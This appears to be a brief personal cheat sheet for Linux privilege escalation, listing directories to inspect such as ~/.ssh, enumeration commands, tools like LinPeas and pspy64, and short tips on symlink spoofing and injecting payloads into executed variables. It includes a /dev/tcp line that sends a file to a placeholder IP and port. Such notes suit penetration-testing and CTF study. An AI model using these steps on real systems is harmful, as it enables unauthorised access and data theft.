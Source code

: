 # Directories to check
```bash
~/
~/.ssh
/tmp
/dev/shm
/opt
/var
var/www/html
/usr
# if a site is live
/etc/apache2 
/etc/apache2/site-enabled
```


# Useful linux programs, tools and commands
```bash
# Human readable JSON data (jq)
cat <json_file> | jq

# Shows network topology
cat /proc/net/fib_trie

# Domain name
hostname

# OS info
/etc/os-release

# Download file from shell session
cat <file> /dev/tcp/<ip>/<port>
```


# Analysis tools
- LinPeas
- pspy64
- [GTFOBins](https://gtfobins.github.io/) (online)


# DIR / file copy (symlink)
If there's a DIR or a file that is being copied one can either create a symlink or a direct spoof of the actual file so that the copied item will be spoofed and have the data the attacker wants.


# Bash file command execute
If a file executes any variable, one might be able to write payload to it.
